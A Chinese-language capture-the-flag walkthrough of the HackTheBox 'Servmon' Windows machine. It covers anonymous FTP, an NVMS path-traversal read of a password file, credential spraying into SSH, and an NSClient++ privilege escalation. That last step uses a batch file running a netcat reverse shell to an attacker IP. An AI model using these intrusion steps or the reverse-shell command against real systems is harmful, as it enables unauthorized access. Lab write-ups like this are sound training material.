```yaml
---
title: HackTheBox-Servmon-Windows
date: 2025-4-10 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```




# nmap

![image-20250410113318146](./Servmon-windows/image-20250410113318146.png)

![image-20250410113330491](./Servmon-windows/image-20250410113330491.png)

![image-20250410113337769](./Servmon-windows/image-20250410113337769.png)

## 21端口

ftp存在匿名登录

用户名：Anonymous/anonymous 密码：空

`Users`下有两个文件夹，将内容下载到本地查看

![image-20250410113948816](./Servmon-windows/image-20250410113948816.png)

有个说明passwords在C:\Users\Nathan\Desktop\Passwords.txt下

在ftp中得到的用户名

```
Nathan
Regards
Administer #windows管理员用户名
Nadine
```



## 80端口

![image-20250410151558402](./Servmon-windows/image-20250410151558402.png)

NVMS存在远程目录读取漏洞，读取内容与POC所给出的内容一致，说明存在该漏洞，尝试读取`password.txt`

![image-20250410151742061](./Servmon-windows/image-20250410151742061.png)

windows\win.ini目录也是在C盘下,windows目录和User目录同级，成功读到Password.txt

![image-20250410151956153](./Servmon-windows/image-20250410151956153.png)

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5
```

尝试使用这些密码和ftp中得到的用户名爆破smb和ssh的账号密码

![image-20250410161219827](./Servmon-windows/image-20250410161219827.png)

```
Nadine:L1k3B1gBut7s@W0rk
```

![image-20250410161329077](./Servmon-windows/image-20250410161329077.png)

```
Nadine:L1k3B1gBut7s@W0rk 
```

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```

![image-20250410163430122](./Servmon-windows/image-20250410163430122.png)

## 8443端口/提权

![image-20250410163317235](./Servmon-windows/image-20250410163317235.png)

NSClient++默认目录在`C:\Program Files\NSClient++`在配置文件 `nsclient.ini`中有password，并且运行在靶机本地，需要端口转发到攻击机去访问这个服务

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

![image-20250410165911690](./Servmon-windows/image-20250410165911690.png)

```txt
password = ew2x6SsGTxjRwXOT
```

![image-20250410172057574](./Servmon-windows/image-20250410172057574.png)

搜索该版本漏洞，该版本存在本地提权漏洞

![image-20250410172234014](./Servmon-windows/image-20250410172234014.png)

先上传`nc.exe`和`exp.bat`

exp.bat的内容就是运行nc进行shell反弹

```bash
@echo off
c:\Users\Nadine\nc.exe 10.10.16.3 443 -e cmd.exe
```

![image-20250410174022900](./Servmon-windows/image-20250410174022900.png)

然后添加一个运行脚本运行`exp.bat`

![image-20250410174217529](./Servmon-windows/image-20250410174217529.png)

添加一个定时任务

![image-20250410174421432](./Servmon-windows/image-20250410174421432.png)

等一会就可以得到管理员的shell